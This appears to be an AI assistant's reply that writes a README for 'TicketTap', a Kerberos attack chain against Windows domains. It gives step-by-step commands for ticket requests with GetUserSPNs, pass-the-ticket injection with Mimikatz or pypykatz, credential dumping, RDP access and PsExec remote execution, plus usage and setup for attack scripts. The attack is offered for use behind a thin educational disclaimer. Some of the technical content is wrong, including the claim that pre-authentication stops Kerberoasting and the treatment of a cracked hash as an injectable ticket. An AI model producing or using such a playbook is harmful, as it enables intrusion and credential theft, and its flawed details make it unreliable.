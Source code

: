 Here’s the complete **GitHub README** with instructions for running the scripts we made earlier, including commands for both **macOS/Linux** and **Windows** to set up the environment, download dependencies, and use the exploitation scripts.

---

# TicketTap: Remote Code Execution, Lateral Movement, Authentication Bypass, and Privilege Escalation via Kerberos TGS Exploitation

**TicketTap** is a multi-faceted vulnerability exploitation chain leveraging **Kerberos TGS (Ticket Granting Service) tickets** to achieve **Remote Code Execution (RCE)**, **Lateral Movement**, **Authentication Bypass**, and **Privilege Escalation** within a networked environment. This exploit allows attackers to bypass authentication, escalate privileges, and execute arbitrary commands remotely by injecting Kerberos TGS tickets into memory.

---

## Table of Contents
- [Overview](#overview)
- [Exploitation Chain Summary](#exploitation-chain-summary)
- [Detailed Steps for TicketTap](#detailed-steps-for-tickettap)
  - [Step 1: Obtain a TGS Ticket](#step-1-obtain-a-tgs-ticket)
  - [Step 2: Inject the TGS Ticket (Pass-the-Ticket)](#step-2-inject-the-tgs-ticket-pass-the-ticket)
  - [Step 3: Access the Target via RDP or SMB](#step-3-access-the-target-via-rdp-or-smb)
  - [Step 4: Privilege Escalation](#step-4-privilege-escalation)
  - [Step 5: Remote Code Execution (RCE)](#step-5-remote-code-execution-rce)
- [Running the Provided Scripts](#running-the-provided-scripts)
  - [Bash Script (macOS/Linux)](#bash-script-macoslinux)
  - [PowerShell Script (Windows)](#powershell-script-windows)
- [Setting Up the Environment](#setting-up-the-environment)
  - [macOS/Linux Setup](#macoslinux-setup)
  - [Windows Setup](#windows-setup)
- [Mitigation Strategies](#mitigation-strategies)
- [Tools Used](#tools-used)
- [Disclaimer](#disclaimer)

---

## Exploitation Chain Summary

The **TicketTap** exploitation chain follows these key steps:
1. **Obtain a TGS Ticket** using **SPN querying**.
2. **Inject the TGS** into the current session using **Mimikatz** or **pypykatz** (Pass-the-Ticket).
3. **Authenticate** to target services such as **RDP** or **SMB**.
4. **Escalate Privileges** to a highly privileged account.
5. **Execute Remote Code** using **PsExec** or other tools to gain control of the target machine.

---

## Detailed Steps for TicketTap

### Step 1: Obtain a TGS Ticket

You can extract TGS tickets for service accounts using **Impacket's `GetUserSPNs.py`**:
```bash
python3 GetUserSPNs.py <domain>/<username>:<password> -request
```
This will output the **$krb5tgs$** format hash.

### Step 2: Inject the TGS Ticket (Pass-the-Ticket)

Inject the TGS ticket using **Mimikatz** or **pypykatz**.

#### Mimikatz (Windows):
```bash
mimikatz# kerberos::ptt <path_to_tgs.kirbi>
```

#### pypykatz (macOS/Linux):
```bash
python3 pypykatz kerberos ptt <path_to_tgs.kirbi>
```

### Step 3: Access the Target via RDP or SMB

#### RDP (Windows):
```bash
mstsc /v:<target-ip>
```

#### RDP (macOS/Linux):
```bash
rdesktop <target-ip>
```

### Step 4: Privilege Escalation

Leverage tools like **Mimikatz** to extract further credentials and escalate privileges:
```bash
mimikatz# sekurlsa::logonpasswords
```

### Step 5: Remote Code Execution (RCE)

Use **PsExec** to run commands on the target machine.

#### PsExec (Windows):
```bash
python3 psexec.py <username>@<domain> -k -no-pass <target-ip>
```

---

## Running the Provided Scripts

### Bash Script (macOS/Linux)

To use the **Bash script** with **pypykatz** for macOS/Linux, follow the instructions below:

#### Example Usage:
```bash
./scriptname.sh -u TechMech -t /path/to/TechMech_tgs.kirbi -m /path/to/pypykatz -ip 192.168.1.10
```

- This injects the **TGS** for user `TechMech` and attempts an RDP connection to the target IP.
- If you want to use **PsExec**, provide the `-psexec`, `-d`, and `-pu` flags as well.

#### Flags:
- `-u`: Username for the TGS.
- `-t`: Path to the `.kirbi` file.
- `-m`: Path to **pypykatz**.
- `-ip`: Target IP for **RDP**.
- `-psexec`: Path to **Impacket's `psexec.py`**.
- `-d`: Domain name for **PsExec**.
- `-pu`: Username for **PsExec**.

### PowerShell Script (Windows)

For **Windows**, use the PowerShell script to inject a **TGS** and attempt an RDP connection or **PsExec**.

#### Example Usage:
```bash
.\scriptname.ps1 /u TechMech /tgsFile C:\path\to\TechMech_tgs.kirbi /mimikatz C:\path\to\mimikatz.exe /ip 192.168.1.10
```

- Injects the **TGS** and attempts to establish an RDP connection.
- For **PsExec**, provide `/psexec`, `/domain`, and `/psexecUser`.

---

## Setting Up the Environment

Here are setup commands to create the necessary directories, download scripts, and clone dependencies for **macOS/Linux** and **Windows**.

### macOS/Linux Setup

1. **Create a directory** and **download scripts**:
    ```bash
    mkdir TicketTap && cd TicketTap
    curl -O https://your-repository-url/scriptname.sh
    ```

2. **Clone dependencies**:
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    git clone https://github.com/skelsec/pypykatz.git
    ```

3. **Install dependencies**:
    ```bash
    pip install -r impacket/requirements.txt
    pip install -r pypykatz/requirements.txt
    ```

### Windows Setup

1. **Create a directory** and **download scripts**:
    ```bash
    mkdir TicketTap && cd TicketTap
    curl.exe -O https://your-repository-url/scriptname.ps1
    ```

2. **Clone dependencies**:
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    curl.exe -O https://download.mimikatz.com/latest
    ```

3. **Install Python and dependencies**:
    ```bash
    python -m pip install -r impacket/requirements.txt
    ```

---

## Mitigation Strategies

To protect against **TicketTap**, consider the following mitigations:
1. **Enable Kerberos pre-authentication** to prevent **Kerberoasting**.
2. **Limit service account privileges** and audit access control.
3. **Monitor Kerberos authentication logs** for anomalies.
4. **Patch Kerberos-related vulnerabilities** to minimize the risk of exploitation.

---

## Tools Used

- **Mimikatz**: Extract and inject Kerberos tickets.
- **pypykatz**: Python-based Kerberos manipulation (macOS/Linux).
- **Impacket**: Tools for querying SPNs, executing PsExec, etc.

---

## Disclaimer

This repository is for **educational purposes** only. Unauthorized use of these techniques on systems without permission is illegal.

---

Feel free to replace the placeholder URLs with actual links, and let me know if you'd like any further adjustments!